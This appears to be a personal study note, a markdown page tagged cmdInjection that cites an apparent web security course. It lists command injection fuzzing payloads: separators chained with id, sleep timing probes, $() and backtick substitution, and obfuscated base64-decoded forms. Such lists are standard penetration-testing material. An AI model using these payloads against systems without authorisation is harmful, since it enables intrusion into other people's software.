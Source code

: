 ```yaml
---
tags:
- cmdInjection
---
```

# CMD Injection.  Word lists

`
```
bogus
;id
|id
`id`
i$()d
;i$()d
|i$()d
FAIL||i$()d
&&id
&id
FAIL_INTENT|id
FAIL_INTENT||id
`sleep 5`
`sleep 10`
`id`
$(sleep 5)
$(sleep 10)
$(id)
;`echo 'aWQK' |base64 -d`
FAIL_INTENT|`echo 'aWQK' |base64 -d`
FAIL_INTENT||`echo 'aWQK' |base64 -d`
```
See example of using this word list  here [[2023090518055757 CMD Injection.  Word lists#^16afd2]]

## References
1. web200, p. 363 ^16afd2